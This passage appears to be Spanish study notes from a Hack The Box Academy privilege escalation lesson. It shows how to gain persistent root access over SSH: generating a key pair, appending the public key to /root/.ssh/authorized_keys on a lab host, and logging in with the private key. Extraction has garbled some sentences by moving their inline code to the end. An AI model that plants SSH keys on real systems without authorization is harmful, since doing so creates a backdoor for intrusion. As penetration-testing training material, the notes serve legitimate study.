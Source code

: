 Si nos encontramos con acceso de escritura a un directorio de usuarios, podemos colocar nuestra clave pública en el directorio ssh del usuario en . Esta técnica se usa generalmente para obtener acceso a ssh después de obtener un shell como ese usuario. La configuración actual de SSH no aceptará claves escritas por otros usuarios, por lo que solo funcionará si ya hemos ganado el control sobre ese usuario. Primero debemos crear una nueva clave con y el flag para especificar el archivo de salida:`/.ssh/``/home/user/.ssh/authorized_keys``ssh-keygen``-f`

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

Esto nos dará dos archivos: (que usaremos con ) y , que copiaremos a la máquina remota. Copiemos, luego en la máquina remota, lo agregaremos a:`key``ssh -i``key.pub``key.pub``/root/.ssh/authorized_keys`

  Escalada de privilegios

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Ahora, el servidor remoto debería permitirnos iniciar sesión como ese usuario utilizando nuestra clave privada:

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

Como podemos ver, ahora podemos ssh en el usuario . Los módulos [Escalada de privilegios de Linux](https://academy.hackthebox.com/module/details/51) y Escalada de [privilegios de Windows](https://academy.hackthebox.com/module/details/67) ofrecen más detalles sobre cómo usar cada uno de estos métodos para la escalada de privilegios y muchos otros.`root`


**[[2- escalada de privilegios]]**
**[[2- python hijacking]]**
